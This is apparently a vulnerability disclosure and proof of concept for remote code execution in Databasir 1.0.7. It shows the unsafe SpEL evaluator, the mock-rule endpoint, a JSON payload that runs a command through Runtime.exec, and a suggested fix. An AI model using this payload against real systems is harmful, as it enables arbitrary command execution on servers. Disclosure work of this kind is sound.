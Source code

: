 # Databasir-1.0.7-vuln-poc
### 影响

Databasir is a team-oriented relational database model document management platform.
Databasir 1.0.7 has remote code execution vulnerability.
Remote code execution vulnerability is a Web security vulnerability, we can execute any command, such as `open -a Calculator`

### 不安全的代码

`SpelScriptEvaluator`使用了StandardEvaluationContext作为context，`script`参数可控并且没有任何过滤

> SimpleEvaluationContext - 针对不需要 SpEL 语言语法的全部范围并且应该受到有意限制的表达式类别，公开 Spal 语言特性和配置选项的子集。
>
> StandardEvaluationContext - 公开全套 SpEL 语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

```java
@Component
@RequiredArgsConstructor
public class SpelScriptEvaluator implements MockScriptEvaluator {

    private final SpelExpressionParser spelExpressionParser = new SpelExpressionParser();

    @Override
    public String evaluate(String script, ScriptContext context) {
        Expression expression = spelExpressionParser.parseExpression(script);
        StandardEvaluationContext spelContext = new StandardEvaluationContext(context);
        return expression.getValue(spelContext, String.class);
    }
}
```

### 漏洞入口

在进行rules校验时

```java
    @PreAuthorize("hasAnyAuthority('SYS_OWNER', 'GROUP_OWNER?groupId='+#groupId, 'GROUP_MEMBER?groupId='+#groupId)")
    @Operation(summary = "保存 Mock Rule")
    @AuditLog(module = AuditLog.Modules.PROJECT, name = "保存 Mock Rule",
            involvedProjectId = "#projectId",
            involvedGroupId = "#groupId")
    @PostMapping(Routes.MockData.SAVE_MOCK_RULE)
    public JsonData<Void> saveMockRules(@PathVariable Integer groupId,
                                        @PathVariable Integer projectId,
                                        @PathVariable Integer tableId,
                                        @RequestBody @Valid List<ColumnMockRuleSaveRequest> rules) {
        mockDataService.saveMockRules(projectId, tableId, rules);
        return JsonData.ok();
    }
```

### POC

攻击者可以控制rules的参数来造成rce，例如：

```json
[
  {
    "columnName": "test",
    "dependentColumnName": "test",
    "dependentTableName": "test",
    "mockDataScript": "T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('open -a Calculator')",
    "mockDataType": "SCRIPT",
    "tableName": "test"
  }
]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2bc2a508c7934b44803437cb64670678.png)


### 修复建议

最直接的方式：使用`SimpleEvaluationContext`来替换`StandardEvaluationContext`

### 报告人
@luelueking 
